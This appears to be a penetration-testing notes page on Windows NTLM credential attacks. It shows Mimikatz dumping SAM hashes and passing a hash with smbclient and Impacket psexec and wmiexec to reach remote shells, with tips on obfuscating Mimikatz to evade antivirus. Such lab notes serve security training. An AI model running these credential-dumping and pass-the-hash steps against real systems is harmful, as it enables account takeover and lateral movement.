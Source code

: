 ```yaml
---
description: >-
  New Technology LAN Manager is a replacement of LAN Manager used to store users
  password hashes in Windows.
---
```


# NTLM

Credentials are stored when a user logs into an account & when a user runs a service. More information below.

## Security Account Manager (SAM)

Passwords hashes on Windows are stored in the Security Account Manager (SAM) database file. _**This is used to authenticate local and remote users.**_





## Local Security Authority Subystem (LSASS).



## Mimikatz

_<mark style="color:red;">**NOTE:**</mark>_ When running Mimikatz it's very important use proper obfuscation techniques since it's heavily signatures. Running it entirely in memory and never saving it on Disk is a good approach.

We can use various commands to extract passwords from the system.

For both the following commands, we must have **SeDebugPrivilege** access right enabled, which we'll accomplish with **privilege::debug**.

### sekurlsa**::logonpasswords**

**sekurlsa::logonpasswords** attempts to extract plaintext passwords and password hashes from all available sources.



### l**sadump::sam**

**lsadump::sam** extracts NTLM hashes from SAM. NOTE: we must **token::elevate** to elevate to SYSTEM user privileges. We need local administrator privileges.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
 
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```





## Passing NTLM - p_ass-the-hash_ (PtH)&#x20;

Depending on situation, we may be able to leverage an NTLM hash without cracking it.

Suppose we are trying to access a share on \\\192.168.246.212\\. We are entering the necessary permissions to access the share.

<figure><img src="../../.gitbook/assets/Screenshot_20231018_220241.png" alt=""><figcaption></figcaption></figure>



Like everything else we need local Administrator on the machine to enable code execution.

### Obtaining Hashes - Mimikatz

```shell-session
# privilege::debug

# token::elevate

# lsadump::sam

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b
```

### SMBClient - Access Share

```shell-session
kali@kali$ smbclient \\\\192.168.236.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jun  2 16:55:37 2022
  ..                                DHS        0  Wed Oct 18 17:54:13 2023
  secrets.txt                         A       16  Thu Sep  1 12:23:32 2022

                4554239 blocks of size 4096. 1602361 blocks available
smb: \> 

```



### Impacket Psexec

We can use Impacket to get a shell. The format is "LMHash:NTHash". We'll give **32 0's for LM**.

```shell-session
kali@kali$ impacket-psexec -hashes 0000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.236.212
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.236.212.....
[*] Found writable share ADMIN$
[*] Uploading file dZntBvns.exe
[*] Opening SVCManager on 192.168.236.212.....
[*] Creating service AKvb on 192.168.236.212.....
[*] Starting service AKvb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> 

```

### Impacket Wmiexec

Like psexec we can use wmiexec to obtain a shell.

```shell-session
kali@kali:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator

C:\>
```

_<mark style="color:red;">**NOTE:**</mark>_ The difference between Psexec & WmiExec is that Psexec works over SMB while WmiExec uses Windows Management Instrumentation.
